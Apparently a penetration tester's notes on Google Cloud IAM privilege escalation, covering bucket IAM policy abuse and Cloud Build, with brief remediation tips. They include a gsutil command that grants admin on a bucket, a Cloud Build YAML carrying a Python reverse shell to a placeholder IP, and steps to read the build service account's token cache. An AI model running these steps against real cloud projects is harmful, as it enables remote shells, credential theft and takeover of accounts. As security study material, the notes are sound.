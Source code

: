 - `allAuthenticatedUsers` is any user on internet that has authenticated to Google Cloud (has potential for misconfiguration!)
    - From Google ([https://cloud.google.com/iam/docs/overview](https://cloud.google.com/iam/docs/overview)): `Note: Consider using allUsers, as described on this page, rather than allAuthenticatedUsers. In many cases, granting access to all users is no more of a security risk than granting access only to authenticated users.`

### Set Bucket Policy

- can privesc to `storage.admin` if you can read the bucket policy (`storage.buckets.getIamPolicy`) and set the IAM policy (`storage.buckets.setIamPolicy` )
    - `storage.buckets.getIamPolicy` is not necessary, but otherwise you risk overwriting the original policy (could lead to errors in environment)

**Privesc command**: `gsutil ch group:<YOUR_CURRENT_GROUP>:admin gs://<BUCKET>`

## Cloud Build

[https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

1. Provide code for Cloud Build which gets executed during build process (RCE)
2. Get access token for cloudbuild service account
- must have permission to start a new build to escalate privileges (`cloudbuild.builds.create`)

[Exploit Script](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py)

### Methodology

- create malicious `.yaml` file:

```yaml
steps:
- name: 'python'
  entrypoint: 'python'
  args:
  - -c
  - import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP-ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Run the following command:`gcloud builds submit --config ./build.yaml .`

Then, read `/root/tokencache/gsutil_token_cache` to get Cloud Build service account token

- check scope of token here: `https://www.googleapis.com/oauth2/v3/tokeninfo?access_token=`

## Remediation

- don’t provide `cloudbuild.build.create` unless you’re okay with the permissions the Cloud Build service account grants
- consider reducing the permissions for the CloudBuild service account
